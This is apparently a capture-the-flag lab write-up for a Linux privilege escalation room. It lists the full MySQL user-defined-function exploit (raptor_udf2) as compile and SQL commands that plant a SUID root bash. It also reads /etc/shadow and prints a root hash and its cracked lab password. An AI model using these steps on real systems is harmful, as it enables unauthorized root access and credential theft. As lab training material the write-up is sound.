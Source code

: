 # Linux Privesc

## Intro

This room will cover a wide variety of Linux Privilege escalation methods. A user account is given so that we can log in over SSH.

**Questions**

    1. Run the "id" command. What is the result?

`uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)`

## Service Exploits

The MySQL service is running as root and the root user for the service does not have a password assigned. [This](https://www.exploit-db.com/exploits/1518 "ExploitDB") is the exploit we will be using in this task. It takes advantage of User Defined Functions to run systems commands as root via the MySQL service.

Exploit is already loaded on the machine for us. The exploit functions in the following manner:

* `gcc -g -c raptor_udf2.c -fPIC` & `gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc` to compile the exploit code.
* `mysql -u root` to connect to the MySQL service as the root user with a blank password.
* `use mysql;`
* `create table foo(line blob);`
* `insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));`
* `select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';` 
* `create function do_system returns integer soname 'raptor_udf2.so';` 
* `select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');` - copies /bin/bash to a new location and marks the SUID bit
* `/tmp/rootbash -p` - running our newly created file with -p will give us a permanent root shell.

## Weak File Permissions - Readable /etc/shadow

The `/etc/shadow` file contains password hashes and is only usually readable by the root user

Each line represents a user and their password hash can be found between the first and second colons of each line.

**Questions**

    1. What is the root users password hash?

$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0

    2. What hashing algorithm was used to produce the root user's password hash?

sha512crypt

    3. What is the root user's password?

password123

